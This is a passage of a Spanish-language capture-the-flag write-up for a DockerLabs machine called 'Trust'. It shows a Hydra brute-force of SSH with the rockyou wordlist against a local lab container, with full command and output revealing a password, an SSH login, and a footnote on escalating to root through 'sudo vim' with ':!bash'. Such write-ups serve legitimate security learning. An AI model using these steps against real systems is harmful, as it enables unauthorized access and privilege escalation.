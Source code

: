 Podemos observar que, tras el escaneo que duró unos pocos segundos, se nos ha devuelto un status code 200 en el archivo *secret.php*. Con esto, nos dirigiremos al navegador para comprobar que es.
![Mensaje](https://github.com/JavieRR13/WriteUps/blob/8f7742950694bd6cce9ba76009eb43a6e12d5b34/DockerLabs/Muy%20f%C3%A1cil/Trust/Im%C3%A1genes/Trust_Mensaje.png)
Nos encontramos frente a una página en blanco con un mensaje con un nombre en el centro.  Además, inspeccionando el código fuente de la página no parece haber nada sospechoso, por lo que solo podemos interpretar que este nombre pueda ser un usuario válido de sistema y probarlo en el servicio SSH utilizando fuerza bruta con la herramienta [Hydra](https://github.com/vanhauser-thc/thc-hydra) y el diccionario de [rockyou](https://github.com/topics/rockyou-wordlist).
```ruby
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-08 10:56:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-08 10:56:28
```
* Con -l seleccionamos el usuario.
* Con -P indicamos un conjunto de contraseñas a probar, en este caso, las recogidas en el diccionario.
* Por último indicamos el servicio y la dirección sobre la que ejecutar el ataque.

Vemos que este ataque ha sido satisfactorio y hemos encontrado una contraseña válida para el usuario *mario*.
Ahora que ya tenemos usuario y contraseña accederemos al servicio SSH para comenzar con el escalado de privilegios.
```ruby
❯ ssh mario@172.18.0.2
mario@172.18.0.2's password: 
Linux 99ebdb36daec 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

```

[^1]: Vim es un editor de texto para sistemas Unix/Linux que, al poder ejecutarse con sudo, se convierte en una vía de escalada de privilegios porque permite lanzar comandos de sistema desde dentro del editor (por ejemplo con :!bash), lo que posibilita abrir una shell con permisos de root.
